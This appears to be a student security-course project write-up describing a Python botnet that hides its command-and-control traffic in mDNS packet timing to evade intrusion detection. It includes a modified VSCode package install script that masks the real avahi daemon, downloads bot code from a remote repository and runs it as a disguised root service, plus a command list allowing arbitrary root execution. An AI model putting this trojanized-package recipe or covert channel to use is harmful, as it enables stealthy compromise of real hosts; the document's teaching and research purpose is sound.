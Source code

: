 # Project 3
IDS Evasion and adaptive IDS strategies

# Reconnaissance
TODO: Recon Section

# Infrastructure

## VM Setup
For ease of use, we used our own Virtual Machines for this project rather than those provided by the class. However, our VMs were running Ubuntu 22.04 (with XFCE) so everything described in the infrastructure phase should work on the class VMs, provided they use python 3.10 or above (our scripts use `match` syntax which was added in 3.10).

Each VM was cloned from an Ubuntu 22.04 template with the following added packages: 
* XFCE-4 (not needed, just nice to have a GUI sometimes)
* Wireshark (only needed for debugging)
* Python 3.10.6 (required)
* python3-bitarray (for bit-level operations, required)
* scapy (packet capture and generation, required)
* Chicago95 (xfce4 theme, purely cosmetic with no impact on project outcome)

Apart from this, the machines have a standard Ubuntu configuration. This includes:
* No firewall
* No SELinux 
* No Apparmor
* No AV Scanner
* avahi enabled

## Networking
The VMs are on a private network with addressing starting at 192.168.1.100. This network has internet access via NAT through a virtual Pf Sense Firewall (also serving as DNS and DHCP server). Internet access is not required to reproduce our bot procedures but was used to simulate traffic and to make our lives easier when configuring the VMs. As the bot does not have propagation capabilities, and the firewall was configured to drop any outgoing mDNS traffic, this was deemed safe by the group members.

## Traffic Simulation
The normal expected traffic was simulated by the python script `trafficsim.py` in the bot repository. This bot would query google or perform a GET request to a number of websites repeatedly at random intervals from 1 to 15 seconds. Additionally, every cycle, the bot would perform a DNS query for a randomly selected site from the Alexa top 1 million list against 8.8.8.8. This bot was installed on each VM and auto-started on boot as a systemd service. 

# Attack
This attack scenario is a targeted compromise of an enterprise environment such as the worm with logic bomb payload that struck the Saudi Aramco company. The attack sequence as a general overview is as follows: An attacker compromises a host on the network via a poisoned dpkg package. This will install the bot agent on the compromised host and will immediately attempt to start traversing the network. Meanwhile, one of the hosts on the network segment must have the c2 server installed. This could be an attacker machine on the network or a compromised machine communicating with a remote attacker through a reverse shell.

## Covert Channel
The covert channel used by the botnet was custom written for this project and implemented as a python library built on top of the scapy packet manipulation tool. Both the bot and C2 server implement this library for their communications. 

### Data payload
The communications for the botnet's C2 is a custom protocol dubbed AuRevior (get it, like Apple Bonjour). It is built on mDNS on UDP on IP. mDNS (Multicast DNS) is a common protocol for local network service discovery, implemented by daemons like `avahi` for Linux. It is very common for hosts to be sending large amounts of Multicast traffic of this protocol on an enterprise network to discover services such as printers. AuRevior works by encoding bits as mDNS packets from different UDP source ports. These are sent is bursts or windows of 0.5 seconds and each window encodes 1 byte of payload data. This yields a transmission rate of 2 bytes per second. Each bit is encoded by whether or not an mDNS packet was sent from the corresponding source port during the window. By default, the AuRevior packet source ports range from 5350 to 5357. These packets all have a qclass of 255 (any).

For example, if a user wanted to transmit the data `0xAA` (0b10101010) the user would send 4 mDNS packets within 0.5 seconds. The packets would originate from ports 5350, 5352, 5354, and 5356 respectively. Conversely, if the user wanted to send `0x1` (0b00000001), they would send 1 mDNS packet in the 0.5 second frame, with a source port of 5357.

The payload of each mDNS packet is a standard mDNS query and does not encode any information*. Should an IDS inspect each individual packet, it would not find anything out of the ordinary. The information is encoded solely by which packets were sent when. The payload has a variable length and the sender will transmit 1 byte every quarter second until it is finished. 

The transmit windows are so big and thus the data rate is so slow because we want to minimize the impact of network latency changes and because we don't want the IDS to think we're trying to flood the network by transmitting massive amounts of mDNS traffic at once.

### Preamble
Each transmission is preceded by a 4 byte preamble of values 0xAA, 0x55, 0xAA, 0x55. (every odd bit, every even bit, repeat). This serves three important purposes:
1- Indicates that a transmission is starting
2- Serves as a synchronization source as the 0.5 second windows are timed starting at the end of the preamble transmission
3- encodes the checksum for the following payload.

The first two are rather self explanatory, however the checksum encoding is more interesting. Remember how we said that nothing was encoded in the mDNS packets themselves? That was a lie. This is true for the data packets but not for the preamble packets. One of the fields of an mDNS packet is the `qclass` or query class field. In normal communications, this is almost always set to 1 for "Internet", however the RFC has 5 valid (although mostly deprecated) values for this field. The protocol takes the first 4 of these symbols and uses them to encode the binary values 00, 01, 10, and 11 respectively. This gets us 2 bits per packet and the preamble has 4 packets per frame. 2 bits/packet * 4 packets/frame * 4 frames/preamble = 32 bits of data which can be encoded in the preamble. For data integrity, AuRevior uses this to transmit a 16 bit checksum twice.

### Post-amble
While post-amble may not be a word, it is a part of the AuRevior transmission. This is 1 window of data with a value of `0xFF` and qclass of 1. This simply notifies the receiver that the transmission is finished and does not contain any further data. 


## The bot
The bot is an agent written in python, registered as a systemd service. It supports covert information exfiltration and arbitrary code execution.

### Installation
The bot is installed as part of a tampered VScode dpkg package. the reason we chose this is that VScode is popular software which is not in ububtu's default repositories which means this is one of the few programs for Linux that is expected to be installed by root from a package downloaded from a website. This allows us to bypass Linux's package management security model. 
As part of the installation, the bot installs itself to `/usr/bin/avahi-ng` and registers an auto-enabled systemd service by the same name. Avahi is the most common mDNS / Bonjour/ Zeroconf utility for Linux so an application called avahi-ng broadcasting mDNS packets will not raise suspicion. The installer will also mask the real avahi service to prevent it from interfering with transmission. It also adds its own dependence, namely scapy and python3-bitarray, to those of VScode. This was done by disassembling the proper .deb file, modifying the DEBIAN files as shown below, and reassembling it with dpkg.

Modifications to `DEBIAN/postinst`:
```bash
systemctl mask avahi-daemon
mkdir -p /etc/avahi-ng
curl -o /etc/avahi-ng/main.py https://raw.githubusercontent.com/CS4404-Mission3/bot/main/bot.py
curl -o /etc/avahi-ng/channel.py https://raw.githubusercontent.com/CS4404-Mission3/bot/main/channel.py
chmod +x /usr/bin/avahi-ng
curl -o /etc/systemd/system/avahi-ng.service https://raw.githubusercontent.com/CS4404-Mission3/bot/main/bot.service
systemctl daemon-reload
systemctl enable --now avahi-ng
```

Modifications to `DEBIAN/control`:
```
Depends: ca-certificates, libasound2 (>= 1.0.16), libatk-bridge2.0-0 (>= 2.5.3), libatk1.0-0 (>= 2.2.0), libatspi2.0-0 (>= 2.9.90), libc6 (>= 2.14), libc6 (>= 2.17), libc6 (>= 2.2.5), libcairo2 (>= 1.6.0), libcups2 (>= 1.6.0), libcurl3-gnutls | libcurl3-nss | libcurl4 | libcurl3, libdbus-1-3 (>= 1.5.12), libdrm2 (>= 2.4.38), libexpat1 (>= 2.0.1), libgbm1 (>= 8.1~0), libglib2.0-0 (>= 2.16.0), libglib2.0-0 (>= 2.39.4), libgtk-3-0 (>= 3.9.10), libgtk-3-0 (>= 3.9.10) | libgtk-4-1, libnspr4 (>= 2:4.9-2~), libnss3 (>= 2:3.22), libnss3 (>= 3.26), libpango-1.0-0 (>= 1.14.0), libsecret-1-0 (>= 0.18), libx11-6, libx11-6 (>= 2:1.4.99.1), libxcb1 (>= 1.9.2), libxcomposite1 (>= 1:0.4.4-1), libxdamage1 (>= 1:1.1), libxext6, libxfixes3, libxkbcommon0 (>= 0.4.1), libxkbfile1, libxrandr2, xdg-utils (>= 1.0.2), python3, python3-bitarray, scapy
```
The additional packages will cause the `dpkg -i` install operation to fail, but this is again normal for a manual installation, the user must simply run `apt --fix-broken install` and everything will work perfectly with them none the wiser. 

## Command and Control
The bots use the C2 mDNS covert channel described in the "covert channel" section above. the bot constantly listens for mDNS traffic and will attempt to parse it. If the message is a command and is destined for the bot's ID (or the Multicast ID 0000), it will execute it and transmit a reply. The supported commands are: `ping`, `info`, `abx`, `shutdown`, and `burnit`. 

* The `ping` command is rather self explanatory: it instructs any bot on the network to send back a message containing its unique ID and the string 'ok'.
* The `info` command instructs the bot to send back its hostname, local IP, and OS version.
* The `abx` command precedes a string input by the user that the bot will execute with root privileges and then sends back the command's output.
* `shutdown` simply turns off a specified host
* `burnit` initiate's the bot's self-destruct mechanism, in which it uninstalls itself from the specified host. 
